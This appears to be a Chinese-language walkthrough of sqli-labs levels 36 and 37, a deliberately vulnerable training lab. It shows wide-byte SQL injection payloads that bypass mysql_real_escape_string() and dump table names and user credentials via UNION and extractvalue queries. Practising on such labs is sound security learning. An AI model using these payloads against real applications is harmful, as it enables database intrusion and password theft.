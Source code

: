 # Less-36
这题用了一个新的函数mysql_real_escape_string()进行过滤，它会转义以下字符:
```
\x00
\n
\r
\
'
"
\x1a
```
其实绕过方式和addslashes()没什么区别。。。
```
127.0.0.1/sqli-labs-master/Less-36/?id=-1%df' union select 1,database(),3--+
127.0.0.1/sqli-labs-master/Less-36/?id=-1%df' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3--+
127.0.0.1/sqli-labs-master/Less-36/?id=-1%df' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273),3--+
127.0.0.1/sqli-labs-master/Less-36/?id=-1%df' union select 1,(select group_concat(username,0x3a,password,0x3c2f62723e) from security.users),3--+
```

# Less-37
依旧是POST的宽字节注入,和之前那道post的区别是，这题过滤用的是mysql_real_escape_string(),但是绕过方法是一样的。
```
username:�' and extractvalue(1,concat(1,database()))#
username:�' and extractvalue(1,concat(1,(select (table_name) from information_schema.tables where table_schema=database() limit 0,1)))#
username:�' and extractvalue(1,concat(1,(select (column_name) from information_schema.columns where table_name=0x7573657273 limit 0,1)))#
username:�' and extractvalue(1,concat(1,(select concat(username,0x3a,password) from security.users limit 0,1)))#
```
















